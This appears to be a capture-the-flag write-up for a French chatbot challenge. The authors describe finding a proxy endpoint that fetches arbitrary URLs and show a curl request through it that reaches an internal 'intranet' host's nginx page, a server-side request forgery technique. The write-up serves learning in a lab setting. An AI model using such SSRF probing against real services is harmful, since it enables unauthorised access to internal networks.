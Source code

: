 # ChatBot

## Description

EvilGouv a récemment ouvert un service de chat-bot, vous savez ces trucs que personne n'aime. Bon en plus d'être particulièrement nul, il doit forcément y avoir une faille. Trouvez un moyen d'accéder à l'intranet !

## Search

At the begin we tried the different options of the chatbot while watching the network analyzer. We found an endpoint named `proxy` and after some test we discovered this proxy can be used to process any http(s) GET request. So we tried lot of IP/domain and found the nginx default page on http://intranet/. 

```
$ curl https://challengecybersec.fr/b34658e7f6221024f8d18a7f0d3497e4/proxy?url=http://intranet/ | json_pp
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   698  100   698    0     0   5057      0 --:--:-- --:--:-- --:--:--  5057
{
   "contents" : "<!DOCTYPE html>\n<html>\n<head>\n<title>Welcome to nginx!</title>\n<style>\n    body {\n        width: 35em;\n        margin: 0 auto;\n        font-family: Tahoma, Verdana, Arial, sans-serif;\n    }\n</style>\n</head>\n<body>\n<h1>Welcome to nginx!</h1>\n<p>If you see this page, the nginx web server is successfully installed and\nworking. Further configuration is required.</p>\n\n<p>For online documentation and support please refer to\n<a href=\"http://nginx.org/\">nginx.org</a>.<br/>\nCommercial support is available at\n<a href=\"http://nginx.com/\">nginx.com</a>.</p>\n\n<p><em>Thank you for using nginx.</em></p>\n</body>\n</html>\n",
   "icon" : "Null",
   "title" : "Welcome to nginx!"
}

```

We also noticed that some range of IP return "forbidden" and others return "not found" but we never found the flag for this challenge.
